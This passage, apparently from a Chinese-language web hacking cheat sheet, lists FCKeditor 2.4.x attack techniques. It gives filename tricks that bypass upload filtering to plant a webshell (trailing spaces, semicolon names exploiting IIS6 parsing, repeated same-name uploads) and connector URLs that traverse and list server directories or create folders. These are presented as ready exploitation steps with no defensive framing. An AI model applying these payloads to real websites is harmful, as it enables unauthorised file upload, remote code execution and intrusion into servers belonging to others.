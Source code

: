 ```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/1.asp
```

### FCKeditor 文件上传“.”变“_”下划线的绕过方法

影响版本: FCKeditor => 2.4.x
脆弱描述：
我们上传的文件例如：shell.php.rar或shell.php;.jpg会变为shell_php;.jpg这是新版FCK的变化。
攻击利用:

```
提交1.php+空格 就可以绕过去所有的,
```

※不过空格只支持win系统 *nix是不支持的[1.php和1.php+空格是2个不同的文件]

Note:[http://pstgroup.blogspot.com/2007/05/tipsfckeditor.html](http://pstgroup.blogspot.com/2007/05/tipsfckeditor.html)

### FCKeditor 文件上传“.”变“_”下划线的绕过方法（二）

影响版本:=>2.4.x的最新版已修补
脆弱描述:
来源:T00LS.Net
由于Fckeditor对第一次上传123.asp;123.jpg 这样的格式做了过滤。也就是IIS6解析漏洞。
上传第一次。被过滤为123_asp;123.jpg 从而无法运行。
但是第2次上传同名文件123.asp;123.jpg后。由于”123_asp;123.jpg”已经存在。
文件名被命名为123.asp;123(1).jpg …… 123.asp;123(2).jpg这样的编号方式。
所以。IIS6的漏洞继续执行了。

如果通过上面的步骤进行测试没有成功，可能有以下几方面的原因：
1.FCKeditor没有开启文件上传功能，这项功能在安装FCKeditor时默认是关闭的。如果想上传文件，FCKeditor会给出错误提示。
2.网站采用了精简版的FCKeditor，精简版的FCKeditor很多功能丢失，包括文件上传功能。
3.FCKeditor的这个漏洞已经被修复。

### FCKeditor 新闻组件遍历目录漏洞

影响版本:Aspx与JSP版FCKeditor
脆弱描述：如何获得webshell请参考上文“TYPE自定义变量任意上传文件漏洞”
攻击利用:
修改CurrentFolder参数使用 ../../来进入不同的目录

```
/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=aspx.asp 
```

根据返回的XML信息可以查看网站所有的目录。

```
/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F

/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=%2F
```
